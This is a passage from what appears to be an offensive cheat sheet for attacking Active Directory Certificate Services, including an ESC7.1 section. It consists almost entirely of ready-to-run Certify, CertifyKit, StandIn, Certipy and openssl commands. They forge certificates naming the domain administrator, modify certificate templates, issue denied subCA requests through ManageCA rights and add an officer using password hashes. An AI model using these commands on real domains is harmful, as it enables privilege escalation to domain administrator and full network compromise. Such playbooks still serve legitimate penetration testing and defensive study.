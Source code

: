 ```
C:\Tools\CertifyKit.exe request /ca:CA_NAME /template:TEMPLATE_NAME /altname:administrator /domain:DOMAIN /alter /sidextension:DOMAIN_SID-500
```

Exploitation:

```
C:\Tools\StandIn\StandIn_v13_Net45.exe --adcs --filter TEMPLATE_NAME --ess --add
C:\Tools\StandIn\StandIn_v13_Net45.exe --adcs --filter TEMPLATE_NAME --ntaccount DOMAIN\USER --enroll --add
StandIn_v13_Net45.exe --ADCS --filter TEMPLATE_NAME --clientauth --add
C:\Tools\StandIn\StandIn_v13_Net45.exe --adcs --filter User --ntaccount DOMAIN\USER --write --add
```


<br>

### <a name="25">2.5 &nbsp;&nbsp; ESC7.1

Condition:

- User has ManageCA and ManageCertificates rights over the CA

Enumeration:

```
C:\Tools\Certify.exe cas
C:\Tools\Certify.exe find
```

Request certificate from SubCA for the EA using [this version of Certify](https://github.com/blackarrowsec/Certify) - You get denied access but get the private key:

```
C:\Tools\Certify.exe request /ca:CA_NAME /template:subCA /altname:administrator /domain:internalDOMAIN /sidextension:DOMAIN_SID-500
```

Issue the failed certificate request:

```
C:\Tools\Certify-esc7.exe issue /ca:CA_NAME /id:69
```

Retrieve the issued request -> Get certificate:

```
C:\Tools\Certify-esc7.exe download /ca:CA_NAME.DOMAIN\CBCA /id:69
```

Convert private key + certificate from .pem to .pfx:

```
C:\Tools\openssl\openssl.exe pkcs12 -in C:\Certs\esc7.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\Certs\esc7.pfx
```

EXTRA 1: No ManageCertificates -> Add ourselves as a new officer using existing ManageCA:

```
certipy ca -u USER@internalDOMAIN -hashes 'HASHES:HASHES' -ca 'CA_NAME' -dc-ip DC_IP -target CA_NAME.DOMAIN -add-officer USER
```
